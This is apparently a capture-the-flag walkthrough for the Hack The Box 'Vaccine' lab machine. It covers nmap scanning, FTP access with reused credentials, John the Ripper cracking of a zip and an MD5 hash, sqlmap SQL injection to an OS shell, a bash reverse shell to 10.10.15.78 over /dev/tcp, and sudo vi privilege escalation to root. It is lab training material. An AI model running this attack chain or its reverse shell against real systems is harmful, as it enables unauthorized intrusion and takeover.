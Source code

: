 # Vaccine

- Target Machine: 10.10.10.46

## Nmap scan

```bash
[exyss@exyss Starting Point]$ nmap -sC -sV 10.10.10.46 -oN nmap/initial.log 
Starting Nmap 7.92 ( https://nmap.org ) at 2021-09-06 16:40 CEST
Nmap scan report for 10.10.10.46
Host is up (0.047s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
21/tcp open  ftp     vsftpd 3.0.3
22/tcp open  ssh     OpenSSH 8.0p1 Ubuntu 6build1 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 c0:ee:58:07:75:34:b0:0b:91:65:b2:59:56:95:27:a4 (RSA)
|   256 ac:6e:81:18:89:22:d7:a7:41:7d:81:4f:1b:b8:b2:51 (ECDSA)
|_  256 42:5b:c3:21:df:ef:a2:0b:c9:5e:03:42:1d:69:d0:28 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
| http-cookie-flags: 
|   /: 
|     PHPSESSID: 
|_      httponly flag not set
|_http-title: MegaCorp Login
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OSs: Unix, Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 23.81 seconds
```

### Getting the source code

We can see that there is an FTP server instance running. We can connect to this server using the credentials found in the last challenge: `ftpuser / mc@F1l3ZilL4` (you can use a CLI FTP client or FileZilla). Once we connect to the FTP server, we can download the file `backup.zip` on our local machine.

The .zip file is password protected, but we can try to bruteforce it using John The Ripper.

```bash
[exyss@exyss Vaccine]$ zip2john backup.zip > hash_backup

[exyss@exyss Vaccine]$ john hash_backup -w=/home/exyss/Desktop/rockyou.txt
```

The cracked password is `741852963`. Now we can unzip the file.
In the index.php file we can see the credential check used in the login.

```php
<?php
session_start();
  if(isset($_POST['username']) && isset($_POST['password'])) {
    if($_POST['username'] === 'admin' && md5($_POST['password']) === "2cb42f8734ea607eefed3b70af13bbd3") {
      $_SESSION['login'] = "true";
      header("Location: dashboard.php");
    }
  }
?>
```

We can see that we have to enter the password with the same md5 hash. We can find this using again John The Ripper.

```bash
[exyss@exyss Vaccine]$ echo "2cb42f8734ea607eefed3b70af13bbd3" > hash_pass

[exyss@exyss Vaccine]$ john hash_pass -w=/home/exyss/Desktop/rockyou.txt --format=raw-md5
```

The cracked password is `querty789`. We can now login on the website.

## Getting a Revshell

Once we have logged in on the website, we get redirected to a dashboard page containing a searchbox and a table with some data. We can try to run an SQL injection by typing `'` in the search box, getting the error message `ERROR: unterminated quoted string at or near "'" LINE 1: Select * from cars where name ilike '%'%' ^`, meaning that we can exploit this vulnerability.

We can run sqlmap to test well-known exploits and get a reverse shell 

```bash
[exyss@exyss Vaccine]$ sqlmap -u http://10.10.10.46/dashboard.php?search=a --cookie="PHPSESSID=hoomdbmemthn15ekparlkaequo" --os-shell

.
.
.
[18:37:34] [INFO] fingerprinting the back-end DBMS operating system
[18:37:35] [INFO] the back-end DBMS operating system is Linux
[18:37:35] [INFO] testing if current user is DBA
[18:37:36] [INFO] retrieved: '1'
[18:37:36] [INFO] going to use 'COPY ... FROM PROGRAM ...' command execution
[18:37:36] [INFO] calling Linux OS shell. To quit type 'x' or 'q' and press ENTER

os-shell> whoami
[18:40:54] [CRITICAL] unable to connect to the target URL. sqlmap is going to retry the request(s)
[18:40:54] [INFO] retrieved: 'postgres'

os-shell> ls /home
do you want to retrieve the command standard output? [Y/n/a] n
[18:38:19] [INFO] retrieved: 'ftpuser'
[18:38:19] [INFO] retrieved: 'simon'
```

We can see that we are logged in as `postgres` and that there is an home folder for the users `ftpuser` (the one that we used earlier) and `simon`.

We can now spawn a complete reverse shell (instead of this nerfed one) by opening a netcat listener on port 1234 and by running `bash -c "bash -i >& /dev/tcp/10.10.15.78/1234 0>&1"`

## Priviledge escalation

Once we have connected, we can search through the filesystem to find something interesting.
First, we can check the website source code, particularly dashboard.php, so we can we can find the  postgress credentials used to connect to the DBMS

```php
<?php
        session_start();
        if($_SESSION['login'] !== "true") {
          header("Location: index.php");
          die();
        }
        try {
          $conn = pg_connect("host=localhost port=5432 dbname=carsdb user=postgres password=P@s5w0rd!");
        }
```

Once we have this user's password, we can check with `sudo -l` which actions can this user do.
__ATTENTION__: first you have to spawn a TTY shell in order to use sudo. To learn how, check the previous challenge.

```bash
postgres@vaccine:/var/www/html$ sudo -l
sudo -l
[sudo] password for postgres: P@s5w0rd!

Matching Defaults entries for postgres on vaccine:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User postgres may run the following commands on vaccine:
    (ALL) /bin/vi /etc/postgresql/11/main/pg_hba.conf

postgres@vaccine:/var/www/html$ ls -la /bin/vi
ls -la /bin/vi
lrwxrwxrwx 1 root root 20 Oct 17  2019 /bin/vi -> /etc/alternatives/vi
```

By using `ls -la` we can see that `/bin/vi` is owned by root, but the user `postgres` is also allowed to run it while editing `pg_hba.conf`. This means that we can run vi and then spawn a root shell by running `:!/bin/bash` while inside vi. The root flag can be found in the root folder